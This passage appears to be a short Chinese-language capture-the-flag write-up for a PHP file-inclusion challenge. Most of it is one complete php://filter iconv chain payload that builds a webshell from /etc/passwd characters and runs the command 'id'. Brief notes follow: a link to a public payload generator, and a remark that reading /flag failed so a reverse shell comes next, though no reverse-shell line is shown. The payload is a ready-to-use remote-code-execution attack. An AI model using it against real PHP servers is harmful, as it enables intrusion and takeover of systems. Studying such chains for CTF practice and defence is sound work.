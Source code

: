 ```php
php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC%5fP271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd&0=id
```

利用`/etc/passwd`的字符来构造一个webshell

https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

直接拿过来用生成payload打

读`/flag`没有权限，先反弹shell
